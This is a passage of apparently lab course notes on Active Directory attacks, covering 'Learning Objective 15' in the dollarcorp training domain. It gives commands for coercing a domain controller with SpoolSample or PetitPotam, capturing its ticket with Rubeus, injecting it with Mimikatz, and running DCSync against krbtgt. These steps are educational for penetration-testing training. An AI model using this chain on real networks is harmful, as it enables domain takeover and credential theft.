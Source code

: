

We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
´´´powershell
Rubeus.exe monitor /interval:5 /nowrap
´´´

And after that run MS-RPRN.exe:

[SpoolSample on GitHub](https://github.com/leechristensen/SpoolSample)

´´´powershell
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
´´´

If you are attacking from a Linux machine, check out **Coercer**:

[Coercer on GitHub](https://github.com/p0dalirius/Coercer)

We can also use **PetitPotam**.exe:

[PetitPotam on GitHub](https://github.com/topotam/PetitPotam)

´´´powershell
 .\PetitPotam.exe us-web us-dc
´´´

On us-web:
´´´powershell
.\Rubeus.exe monitor /interval:5
´´´

> PetitPotam uses **EfsRpcOpenFileRaw** function of **MS-EFSRPC** (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC.



Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
´´´powershell
Rubeus.exe ptt /ticket:
´´´

Or use Invoke-Mimikatz:
´´´powershell
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi",
[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
´´´

Once the ticket is injected, run DCSync:
´´´powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
´´´

Learning Objective 15

- Find a server in dcorp domain where Unconstrained Delegation is enabled.
- Compromise the server and escalate to Domain Admin privileges.
- Escalate to Enterprise Admins privileges by abusing Printer Bug!
